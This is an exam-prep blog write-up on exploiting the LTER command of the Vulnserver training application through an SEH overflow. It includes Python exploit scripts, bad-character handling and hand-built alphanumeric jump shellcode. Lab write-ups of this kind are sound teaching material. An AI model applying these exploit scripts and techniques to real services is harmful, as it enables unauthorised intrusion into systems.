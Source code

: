```yaml
---
title: Vulnserver LTER SEH buffer overflow
tags: OSCE
key: 20190801
comments: true
---
```


So one day, I was preparing for OSCE, I fire up vulnserver and try to mess around with one of their vulnerable command, LTER that I discovered by spike. Little did I know, this one is much harder than I thought.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-1.png"/>

When the POC crash, we can see that EIP is not overwritten, however, if we look at the SEH chain, we can find that it got overwritten to our payload. So, this is going to be a SEH buffer overflow.

We use pattern create and !mona findmsp to get the location of nSEH and SEH
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-2.png"/>

nSEH at 3515 and SEH at 3519, looks good. However, we only get 52 bytes after that, which clearly is not enough for a reverse shell. Looks like a job for egghunter?

With the help of !mona seh, we get the address for a pop pop retn instruction.
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-3.png"/>

Here, I choose 0x6250120B which I got lucky here, you will know why later.

Then, I add a jmp short to jump over the address after the redirection to nSEH and here's where the nightmare began. 
```python
#!/usr/bin/python
import socket
import sys
#6250120B
RHOST = '192.168.170.129'
RPORT = 9999
length = 5000
string = "LTER /.:/" + "\x46" * 3515
string += "\xEB\x0B\x90\x90" + "\x0B\x12\x50\x62"
string += "\x46" * (length -len(string))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((RHOST,RPORT))
s.recv(1024)
s.send(string)
s.close()
```
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-4.png"/>

See where our short jump should be? \xEB got converted to \x6C and \x90 got converted to \x11. Since like both of them are bad characters. That's not a big deal, I can use a conditional jump instead.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-5.png"/>

Here I use \x77 to make a conditional jump when both CF and ZF are equal 0. The jump is working quite well. Before we put our shellcode inside, lets check for bad characters.

We all knew that \xEB and \x90 are bad characters, how about the others? The truth is...
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-6.png"/>

The truth is every single bytes after \x7F got converted and we cannot use them. Not even our egghunter cause after we encode it, the size will be larger that the space we have. We will need to find some way to get more space. 

How about we jump to the middle of our payload? it's possible but we can't just put \xFF in our payload and make the jump. To solve this problem, we will redirect where our ESP is pointing at and use push to push the shellcode we need. Which result in these shellcode.
```python
#!/usr/bin/python
import socket
import sys

jump = "\x60\x54\x58\x54\x5B\x66\x05\x79\x13\x50\x5C\x25\x41\x41\x41\x41\x25\x3E\x3E\x3E\x3E\x05\x41\x41\x41\x41\x66\x05\x41\x41\x66\x05\x69\x03\x50"
jump2 = "\x53\x58\x66\x05\x62\x01\x66\x05\x62\x01\x66\x05\x62\x01\x66\x05\x62\x01\x50\x5F\x04\x02\x50\x59\x66\x05\x77\x07\x66\x05\x41\x06\x50\x5C\x25\x41\x41\x41\x41\x25\x3E\x3E\x3E\x3E\x05\x41\x41\x41\x41\x66\x05\x41\x41\x66\x05\x7D\x65\x50"

RHOST = '192.168.170.129'
RPORT = 9999
length = 5000
string = "LTER /.:/" + "\x46" * 3
string += "\x53\x5C" + "\x46" * (3515-3-2-64)
string += jump2
string += "\x46" * (64-len(jump2))
string +="\x42\x42\x77\x04" + "\x0B\x12\x50\x62"
string += jump
string += "\x46" *(length - len(string))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((RHOST,RPORT))
s.recv(1024)
s.send(string)
s.close()
```
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-7.png"/>

The first jump will redirect ESP to the end of the payload so that we can write some shellcode at the end. The distance between ESP and the end of the payload is around 0x1379 so we use eax to do the calculation and ebx to store the original value of esp.

P.S. you do not need the PUSHAD, I am just lazy to recalculate all the stuff to align ESP. just minus 32 bytes if you want to get rid of the PUSHAD
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-8.png"/>

This jump help us to create more space so that we can make a further jump to our shellcode.

The second jump looks like this
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-9.png"/>
